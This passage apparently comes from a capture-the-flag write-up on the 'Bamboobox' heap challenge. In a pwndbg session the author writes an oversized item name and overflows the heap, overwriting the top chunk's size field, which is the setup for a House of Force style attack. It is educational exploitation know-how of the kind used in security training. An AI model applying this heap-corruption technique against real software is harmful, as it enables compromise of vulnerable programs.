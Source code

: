 THe `itemlist` shows us that we have specified the size `0x5` and a pointer to heap chunk where the data resides.


Let's change the item and see what happens.

```C
pwndbg> c
Continuing.
3
Please enter the index of item:0
Please enter the length of item name:30
Please enter the new name of the item:BBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
----------------------------
Bamboobox Menu
----------------------------
1.show the items in the box
2.add a new item
3.change the item in the box
4.remove the item in the box
5.exit
----------------------------
Your choice:invaild choice!!!
----------------------------
Bamboobox Menu
----------------------------
1.show the items in the box
2.add a new item
3.change the item in the box
4.remove the item in the box
5.exit
----------------------------
Your choice:^C


------------------------------------------------------
------------------------------------------------------

0x603260	0x0000000000400896	0x00000000004008b1	..@.......@.....
0x603270	0x0000000000000000	0x0000000000000021	........!.......
0x603280	0x4242424242424242	0x4242424242424242	BBBBBBBBBBBBBBBB
0x603290	0x4242424242424242	0x0000424242424242	BBBBBBBBBBBBBB..	


0x603280	0x4242424242424242	0x4242424242424242	BBBBBBBBBBBBBBBB
0x603290	0x4242424242424242	0x0000424242424242	BBBBBBBBBBBBBB..	 <-- Top chunk
pwndbg> x/2xg 0x00000000006020c0
0x6020c0 <itemlist>:	0x0000000000000005	0x0000000000603280
pwndbg> top_chunk
Top chunk
Addr: 0x603290
Size: 0x424242424242
pwndbg> 

```
